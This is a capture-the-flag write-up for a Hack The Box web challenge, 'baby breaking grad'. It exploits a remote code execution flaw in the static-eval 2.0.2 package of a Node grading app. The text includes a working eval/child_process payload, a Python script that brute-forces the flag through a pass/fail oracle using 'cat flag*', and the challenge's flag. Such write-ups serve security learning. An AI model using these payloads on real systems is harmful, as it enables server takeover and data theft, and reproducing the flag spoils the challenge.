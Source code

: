 # baby breaking grad
## Challenge description
We corrected the math in our physics teacher's paper and now he is failing us out of spite for making a fool out of him in the university's research symposium, now we can't graduate, unless we can do something about it...

## Looking around
When we visit the website in a browser, we see this.

![website](./website.PNG)

Functionally, that's it. Choose a name and not pass.

## Challenge source code
### `routes/index.js`
```python
const randomize         = require('randomatic');
const path              = require('path');
const express           = require('express');
const router            = express.Router();
const StudentHelper     = require('../helpers/StudentHelper');

router.get('/', (req, res) => {
    return res.sendFile(path.resolve('views/index.html'));
});

router.post('/api/calculate', (req, res) => {
    let student = req.body;

    if (student.name === undefined) {
        return res.send({
            error: 'Specify student name'
        })
    }

    let formula = student.formula || '[0.20 * assignment + 0.25 * exam + 0.25 * paper]';

    if (StudentHelper.isDumb(student.name) || !StudentHelper.hasPassed(student, formula)) {
        return res.send({
            'pass': 'n' + randomize('?', 10, {chars: 'o0'}) + 'pe'
        });
    }

    return res.send({
        'pass': 'Passed'
    });
});

module.exports = router;
```

### `helpers/StudentHelper.js`
```python
const evaluate = require('static-eval');
const parse = require('esprima').parse;

module.exports = {
    isDumb(name){
        return (name.includes('Baker') || name.includes('Purvis'));
    },

    hasPassed({ exam, paper, assignment }, formula) {
        let ast = parse(formula).body[0].expression;
        let weight = evaluate(ast, { exam, paper, assignment });
        
        return parseFloat(weight) >= parseFloat(10.5);
    }
};
```

## Methodology
`/api/calculate` call is used to determine if we pass or not. When we intercept the request we can see that we are only sending the `name`.

```json
{"name":"Kenny Baker"}
```

We can also specify the formula. If we don't specify it, it gets decided for us. We can make ourselves pass if we don't include `Baker` or `Purvis` in the name and specify the formula above `10.5`.

![passed](./passed.PNG)

In `StudentHelper` we use the module `static-eval` which can evaluate code blocks. From `package.json` we see `static-eval` is at the version `2.0.2`.

There is an issue within this version, where we can trigger an [RCE](https://github.com/advisories/GHSA-8v27-2fg9-7h62). The issue is debated [here](https://github.com/browserify/static-eval/issues/34).

```python
let ast = parse(formula).body[0].expression;
let weight = evaluate(ast, { exam, paper, assignment });
```

In this secion the program parses content in our controlled `formula` variable.

## Exploit
As a basis we are going to use this payload.

```python
payload = "(function (x) { return `${eval(\"console.log(global.process.mainModule.constructor._load('child_process').execSync('ls').toString())\")}` })()"
```

On the server this executes `ls` command. My approach is boolean-based. We can control the formula to either pass or no pass. I will exfiltrate flag char by char by bruteforcing every character in the flag. If I guess the char correctly, I pass, if not, I don't pass.

The flag file is named `flag` + 5 random characters that we don't know. `cat flag*` does the trick and concatenates the right file.

### `exploit.py`
```python
#!/usr/bin/python3

import requests
import string

url = 'http://159.65.51.138:32510'

flag = ''

for i, _ in enumerate(iter(bool, True)):
  for c in string.printable:
    # if char from flag is guessed correctly, return 25 (Passed: formula >= 10.5) else return 1 (Nope: formula < 10.5)
    p = "(function (x) { return `${eval(\"if(global.process.mainModule.constructor._load('child_process').execSync('cat flag*').toString().charCodeAt(" + str(i) + ") == " + str(ord(c)) + ") {25} else {1}\")}` })()"

    j = {"name": "yooo", "formula": p}
    r = requests.post(url + '/api/calculate', json=j)

    if(b'Passed' in r.content):
      flag += c
      print(flag)

      if(c == '}'):
        quit()

      break
```

I compared `charCodeAt` with the `ord` of my charset, because it was much more reliable for me than comparing literal characters.

![loot](./loot.PNG)

## Flag
**HTB{f33l1ng_4_l1ttl3_blu3_0r_m4yb3_p1nk?...you_n33d_to_b3h4v'eval!!}**